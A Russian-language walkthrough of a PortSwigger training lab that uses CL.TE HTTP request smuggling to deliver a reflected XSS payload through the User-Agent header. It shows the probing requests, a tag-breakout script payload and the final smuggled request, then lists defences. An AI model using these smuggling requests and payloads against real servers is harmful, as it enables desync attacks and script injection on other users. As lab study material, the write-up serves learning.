

лаба https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss
#### доставка XSS через HTTP контрабанду
Приложение также уязвимо для отраженного XSS через `User-Agent` заголовок

задание:  вызвать alert(1) чеерез контрабанду через `User-Agent` заголовок


-----------

вот ориг запрос на главную 
```http
GET / HTTP/2
Host: 0a390094043218bd805eb226007e00d5.web-security-academy.net
Cookie: session=EyKc8vJYMvLq7SH9rhjsjp0fqVfqMBr2
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

----

вот так ответ 400 тайм аут (говорит - что фронт ждал остатки запроса , еще 49 символов, значит фрон слушается CL)
```http
POST / HTTP/1.1
Host: 0a390094043218bd805eb226007e00d5.web-security-academy.net
Cookie: session=EyKc8vJYMvLq7SH9rhjsjp0fqVfqMBr2
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Transfer-Encoding: chunked

0
```

вот так ответ 500 тайм аут (говорит о том, что бек ждал TE конец - то есть ждал 0)
```http
POST / HTTP/1.1
Host: 0a390094043218bd805eb226007e00d5.web-security-academy.net
Cookie: session=EyKc8vJYMvLq7SH9rhjsjp0fqVfqMBr2
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 1
Transfer-Encoding: chunked

1
```

итого
фронт слушает CL
бек      слушает  TE

отлично - это уже почти уязвимость!

-----

сейчас нужно подтвердить, что на сайте есть уязвимость в ser-Agent

`<script>alert(1)<script/>`
User-Agent: `<script>alert(1)<script/>`

типо так:
```http
GET /post?postId=7 HTTP/2
Host: 0a390094043218bd805eb226007e00d5.web-security-academy.net
Cookie: session=EyKc8vJYMvLq7SH9rhjsjp0fqVfqMBr2
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: <script>alert(1)</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a390094043218bd805eb226007e00d5.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
и вижу как в html страницы отразился наш юзер агентё
```html
                       <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
                            <input required type="hidden" name="csrf" value="OOxy9bwOFpjwOoeHQBTiUxuTBQs2s3sD">
                            <input required type="hidden" name="userAgent" value="<script>alert(1)</script>">
                            <input required type="hidden" name="postId" value="7">
```

нужно выйти за пределы тега
делаю `"><script>alert(1)<script/><"`

результат - получилось выйти за пределы!!!
```html
                           <input required type="hidden" name="userAgent" value=""><script>alert(1)</script><"">
                            <input required type="hidden" name="postId" value="7">
                            <label>
```

проверил (для себя ) через сайт -вижу что
значит XSS подтверждена практически




---

осталось только доставить контрабандой такой запрос с таким агентом `User-Agent: "><script>alert(1)</script><"`
фронт слушает CL
бек      слушает  TE

---


делаю запрос
```http
POST / HTTP/1.1
Host: 0a390094043218bd805eb226007e00d5.web-security-academy.net
Cookie: session=EyKc8vJYMvLq7SH9rhjsjp0fqVfqMBr2
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 189
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
Host: 0a390094043218bd805eb226007e00d5.web-security-academy.net
User-Agent: "><script>alert(1)</script><"
Content-Type: application/x-www-form-urlencoded
```

и лаба решена!!!
User-Agent - и аллерт вызвался!

-------

## вывод 

классика - xss , но была в User-Agent, то есть User-Agent отражался в коде страницы (ну и не валидировался!)

фронт слушал CL
бек    слушал  TE
то есть было рассхождение между тем как воспринимают данные фронт и бек

чтобы доставить все запросы на бек 
я сделал Content-Length: 189
и фронт все это отправил

а вот для бека я оставил первый символ 0 GET /post?post
из-за чего бек, слушая чанки, принял это за конец запроса
и оставшиеся запросы остались висеть в буфере бека
и приклеились к след запросу

## + защита

нужно чтобы фронт и бэк одинаково определяли границы запросов

лучше использовать http/2 где нет путаницы с длинойй

если http/1.1 то запрещать запросы с противоречивыми заголовками content-length и transfer-encoding

также валить соединения где возникает рассогласование

для критических операций (как отправка комментариев) использовать строгую валидацию входных данных и не доверять длине, указанной в запрос

вовремя обновлять серверное по

